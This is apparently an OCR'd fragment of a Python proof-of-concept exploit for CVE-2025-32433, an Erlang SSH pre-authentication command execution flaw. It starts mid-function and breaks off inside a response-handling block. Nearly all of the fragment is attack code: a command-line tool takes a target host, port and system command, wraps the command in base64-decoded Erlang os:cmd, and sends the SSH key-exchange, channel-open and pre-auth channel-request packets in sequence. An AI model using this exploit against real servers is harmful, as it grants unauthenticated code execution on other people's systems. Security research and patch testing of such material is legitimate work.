 ```python
    # Create Erlang code that decodes and executes the command
    return f'os:cmd(binary_to_list(base64:decode("{encoded_cmd}"))).'


# === Exploit flow ===
def main():
    # Parse command line arguments
    parser = argparse.ArgumentParser(description='Exploit for Erlang CVE-2025-32433')
    parser.add_argument('-t', '--target', default="127.0.0.1", help='Target IP address (default: 127.0.0.1)')
    parser.add_argument('-p', '--port', type=int, default=2222, help='Target port (default: 2222)')
    parser.add_argument('-c', '--command', help='System command to execute (for example: touch /tmp/success)')
    parser.add_argument('-e', '--erlang', help='Interpret command as raw Erlang code instead of system command. (for example: os:cmd("touch /tmp/success").)')
    args = parser.parse_args()

    # Convert system command to Erlang command unless --erlang flag is used
    if args.erlang:
        erlang_cmd = args.erlang
    elif args.command:
        erlang_cmd = format_erlang_command(args.command)
    else:
        print(parser.print_help())
        return

    try:
        with socket.create_connection((args.target, args.port), timeout=5) as s:
            print("[*] Connecting to SSH server...")

            # 1. Banner exchange
            s.sendall(b"SSH-2.0-OpenSSH_8.9\r\n")
            banner = s.recv(1024)
            print(f"[+] Received banner: {banner.strip().decode(errors='ignore')}")
            time.sleep(0.5)  # Small delay between packets

            # 2. Send SSH_MSG_KEXINIT
            print("[*] Sending SSH_MSG_KEXINIT...")
            kex_packet = build_kexinit()
            s.sendall(pad_packet(kex_packet))
            time.sleep(0.5)  # Small delay between packets

            # 3. Send SSH_MSG_CHANNEL_OPEN
            print("[*] Sending SSH_MSG_CHANNEL_OPEN...")
            chan_open = build_channel_open()
            s.sendall(pad_packet(chan_open))
            time.sleep(0.5)  # Small delay between packets

            # 4. Send SSH_MSG_CHANNEL_REQUEST (pre-auth!)
            print("[*] Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...")
            print(f"[*] Erlang payload: {erlang_cmd}")
            chan_req = build_channel_request(command=erlang_cmd)
            s.sendall(pad_packet(chan_req))

            print(
                f"[✓] Exploit sent! Command executed on target"
            )

            # Try to receive any response (might get a protocol error or disconnect)
            try:
                response = s.recv(1024)
                print(f"[+] Received response: {response.hex()}")
            except socket.timeout:
```